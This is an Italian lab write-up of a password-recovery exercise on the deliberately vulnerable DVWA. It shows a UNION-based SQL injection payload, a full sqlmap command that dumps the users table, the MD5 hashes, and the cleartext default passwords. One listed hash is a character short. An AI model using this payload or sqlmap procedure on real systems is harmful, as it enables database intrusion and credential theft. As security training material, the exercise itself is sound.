

# **Password Cracking - Recupero delle Password in Chiaro**

## **Obiettivo dell'Esercizio**

L'obiettivo di questo esercizio era:
1. Recuperare le password hashate nel database della DVWA.
2. Eseguire la verifica degli hash per confermare che fossero di tipo MD5.
3. Recuperare le password in chiaro utilizzando i risultati ottenuti.

---

## **Passaggi Seguiti**

### **1. Recupero delle Password dal Database**

Per recuperare le password hashate, abbiamo seguito i seguenti passaggi:

1. **Connessione al database DVWA**: Il database vulnerabile era ospitato su una macchina Metasploitable configurata con indirizzo IP `192.168.1.20`.

2. **Verifica della vulnerabilità SQL Injection**:
   - La vulnerabilità è stata identificata manualmente testando la query:
     ```sql
     ' UNION SELECT user, password FROM users--
     ```
   - Questo test ha confermato la possibilità di estrarre dati dalla tabella `users`.

3. **Utilizzo di SQLMap per automatizzare il processo**:
   - Abbiamo eseguito il seguente comando SQLMap:
     ```bash
     sqlmap -u "http://192.168.1.20/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
     --cookie="PHPSESSID=ae5d9438f544ec0461fd88f50b32fc1e; security=low" \
     -D dvwa -T users --dump
     ```
   - Il comando ha permesso di estrarre la tabella `users` con i seguenti dati:
     ```plaintext
     +----------+----------------------------------+
     | user     | password                         |
     +----------+----------------------------------+
     | admin    | 5f4dcc3b5aa765d61d8327deb882cf99 |
     | gordonb  | e99a18c428cb38d5f260853678922e03 |
     | 1337     | 8d3533d75ae2c396d7e0d4fcc69216b  |
     | pablo    | 0d107d09f5bbe40cade3de5c71e9e9b7 |
     | smithy   | 5f4dcc3b5aa765d61d8327deb882cf99 |
     +----------+----------------------------------+
     ```

---

### **2. Identificazione delle Password Hashate**

Una volta estratti gli hash, abbiamo verificato che fossero di tipo MD5 utilizzando un tool di identificazione degli hash. Questo ci ha confermato che tutti gli hash estratti appartenevano alla famiglia MD5.

Esempio di verifica di un hash:
```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" | hashid
```
Risultato:
```plaintext
Analyzing '5f4dcc3b5aa765d61d8327deb882cf99'
[+] MD5
```

---

### **3. Recupero delle Password in Chiaro**

Grazie ai dati estratti, è stato possibile associare ogni hash MD5 alla rispettiva password in chiaro direttamente nei risultati restituiti da SQLMap. Non è stato necessario utilizzare tool di cracking come John the Ripper.

Le password in chiaro sono:
- `admin`: `password`
- `gordonb`: `abc123`
- `1337`: `charley`
- `pablo`: `letmein`
- `smithy`: `password`



---

## **Conclusioni**

L'esercizio ha permesso di:
1. Recuperare le password hashate dal database DVWA sfruttando una vulnerabilità SQL Injection tramite SQLMap.
2. Verificare che gli hash estratti fossero di tipo MD5 utilizzando un tool di identificazione degli hash.
3. Recuperare le password in chiaro direttamente dai risultati, completando l'obiettivo senza la necessità di ulteriori tool di cracking.

La procedura seguita dimostra l'importanza della sicurezza dei database e dei sistemi web, evidenziando come vulnerabilità note possano essere sfruttate per ottenere dati sensibili.
